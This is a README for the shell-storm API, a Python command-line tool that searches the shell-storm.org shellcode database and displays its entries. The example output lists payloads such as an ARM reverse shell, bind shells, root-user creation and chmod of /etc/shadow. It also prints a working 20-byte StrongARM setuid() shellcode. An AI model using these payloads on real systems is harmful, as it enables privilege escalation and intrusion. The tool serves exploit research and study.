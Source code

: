 shell-storm API
===============

Search and display all shellcodes in shell-storm database.

Usage
-----

<b>Syntax</b>

<pre>./shell-storm-api.py &lt;option&gt; &lt;arg&gt;</pre>

<b>Options</b>

<pre>
-search               Search shellcodes
-display              Display shellcode
-version              Display version
</pre>


Example
-------

<pre>
$ ./shell-storm-api.py -search arm
Connecting to shell-storm.org...
Found 23 shellcodes
ScId	Title
[821]	Linux/ARM - reverse_shell(tcp,10.1.1.2,0x1337)
[820]	Linux/ARM - chmod(/etc/shadow, 0777) - 41 bytes
[819]	Linux/ARM - execve(/bin/sh, [0], [0 vars]) - 30 bytes
[765]	Linux/x86 - /etc/init.d/apparmor teardown - 53 bytes
[754]	Linux/ARM - connect back /bin/sh. 79 bytes
[735]	Linux/ARM - add root user with password - 151 bytes
[730]	Linux/ARM - Bindshell port 0x1337
[729]	Linux/ARM - Bind Connect UDP Port 68
[728]	Linux/ARM - Loader Port 0x1337
[727]	Linux/ARM - ifconfig eth0 and Assign Address
[698]	Linux/ARM - execve(/bin/sh, [0], [0 vars]) - 27 bytes
[696]	Linux/ARM - execve(/bin/sh,NULL,0) - 31 bytes
[696]	Linux/ARM - execve(/bin/sh,NULL,0) - 31 bytes
[671]	Linux/ARM - Polymorphic execve("/bin/sh", ["/bin/sh"], NULL); - XOR 88 encoded - 78 bytes
[670]	Linux/ARM - polymorphic chmod(/etc/shadow, 0777) - 84 Bytes
[669]	Linux/ARM - Disable ASLR Security - 102 bytes
[668]	Linux/ARM - chmod(/etc/shadow, 0777) Shellcode - 35 Bytes
[667]	Linux/ARM - Kill all processes (with/without _setuid) - 28 bytes
[666]	Linux/ARM - setuid(0) & execve(/bin/sh, /bin/sh, 0) - 38 bytes
[665]	Linux/ARM - execve(/bin/sh, /bin/sh, 0) - 30 bytes
[661]	Linux/StrongARM - bind() portshell - 203 bytes
[660]	Linux/StrongARM - setuid() - 20 bytes
[659]	Linux/StrongARM - execve() - 47 bytes
$
</pre>


<pre>
$ ./shell-storm-api.py -display 660
Connecting to shell-storm.org...

/*
 * 20 byte StrongARM/Linux setuid() shellcode
 * funkysh
 */

char shellcode[]= "\x02\x20\x42\xe0"   /*  sub   r2, r2, r2            */
                  "\x04\x10\x8f\xe2"   /*  add   r1, pc, #4            */
                  "\x12\x02\xa0\xe1"   /*  mov   r0, r2, lsl r2        */
                  "\x01\x20\xc1\xe5"   /*  strb  r2, [r1, #1]          */
                  "\x17\x0b\x90\xef";  /*  swi   0x90ff17              */



$
</pre>

